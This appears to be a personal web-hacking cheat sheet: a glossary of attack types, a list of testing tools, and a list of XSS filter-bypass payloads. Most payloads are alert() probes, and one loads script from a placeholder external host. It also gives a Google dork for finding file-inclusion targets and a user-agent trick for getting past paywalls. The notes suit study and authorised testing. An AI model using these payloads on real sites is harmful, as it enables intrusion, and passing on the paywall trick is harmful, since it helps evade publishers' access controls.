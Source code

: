 # Web Hacking

## Quick Tips

* [Index of all web client & server security topics](https://portswigger.net/web-security/all-topics)
* Where to look = source code (form input/hidden fields, directories & indexes), URL (parameters), cookie (-stored strings), _robots.txt_, _.htaccess_ & _.htpasswd_
* Access paywalled research papers = install a useragent switcher extension and set it to Googlebot (they let SEs read their content)
  * <https://www.reddit.com/r/reddit.com/comments/6o84t/who_else_is_sick_of_sites_hosting_research_papers/c04f3xz>

## Glossary

* **Clickjacking** = tricking user into clicking on something unintended (eg Facebook likejacking, where hidden button overlay induces a pagelike)
* **C/XSRF** (Cross-Site Request Forgery) = coerces a victim into browsing a legit page s/he's currently logged in via a specially crafted URL with parameters having an immediate effect
  * Caused by a lack of mechanisms to check the source of a request (URL referer or generated form token)
* **Directory Traversal** = abuses an input expecting eg a filename with a more elaborate parent hierarchy traversing path (to something interesting eg a filesystem index or password file)
* **File Inclusion** = abuses a page including another page (even PHP scripts) via its URL, loading/executing them with no boundaries/filters in place, bypassing same website policy
  * **Local** (LFI) = only local files are allowed, could still be used by files whose content can be maniplated by attacker (eg access logs)
  * **Remote File Inclusion** (RFI) = any remote file/page can be included (eg `index.php?page=http://www.google.com`, google them via `inurl:"index.php?page="`)
* **XSS** (Cross-Site Scripting) = abuses a legit page's lack of input (URL, form field) sanitization to insert a malicious (JS) script, accounts for 84% of all security vulnerabilities
  * **Persistent** = the script is saved and served back to the victim when she browses a page displaying unsanitized content (eg _MMQ_)
  * **Non-Persistent** = coerces a victim into browsing a volatile forged (**GET/POST**) URL holding payload as parameter which get displayed on a page without sanitization
    * Eg a (lousy) search engine results page: _You searched: `javascript:alert('oh no');`_

## Tools

* _Burp Suite Scanner_ (by _PortSwigger_) = web app vulnerability testing/scanning graphical tool, server-side vulnerabilities, Interactive Application Security Testing (IAST), web proxy, web app crawler
* _IronWASP_ = open-source web app vulnerability testing/scanning, reports, extensible
* _OWASP Zap_ = web app security testing, AJAX Spidering, Fuzzing, REST APIs testing, active/passive scan, Filters, Anti-CSRF tokens, WebSocket testing, HTTP sessions, Spider

## Payloads

### XSS

Examples (different ways to bypass input sanitization):

```PHP
page.php?q="><script>alert('The Hacker News')</script>
page.php?q="><script>alert("The Hacker News")</script>
page.php?q="><script>alert("The Hacker News");</script>
page.php?q="><script>alert(/The Hacker News");</script>
page.php?q=//"><script>alert(/The Hacker News/);</script>
page.php?q=abc<script>alert(/The Hacker News/);</script>
page.php?q=abc"><script>alert(/The Hacker News/);</script>
page.php?q=abc"></script><script>alert(/The Hacker News/);</script>
page.php?q=abc//abc"></script>alert(/The Hacker News/);</script>
page.php?q=000"><script></script><script>alert(The Hacker News);</script>
page.php?q=000abc</script><script>alert(/The Hacker News/);</script>
page.php?q=--<script>"></script>alert(/The Hacker News/);</script>
page.php?q=pwned<script>document.write('The Hacker News');</script>
page.php?q=pwned</script><script>document.write(The Hacker News);</script>
page.php?q=pwned')alert(The Hacker News);//
page.php?q=pwned";)alert(The Hacker News);//
page.php?q=pwned");alert(/The Hacker News/);//
page.php?q=pwned//"></script><script>location.href='javascript:alert(/The Hacker News/);</script>
page.php?q="><img src='javascript:alert('The Hacker News');'>
page.php?q="><script src='http://malicous js'</script>
```
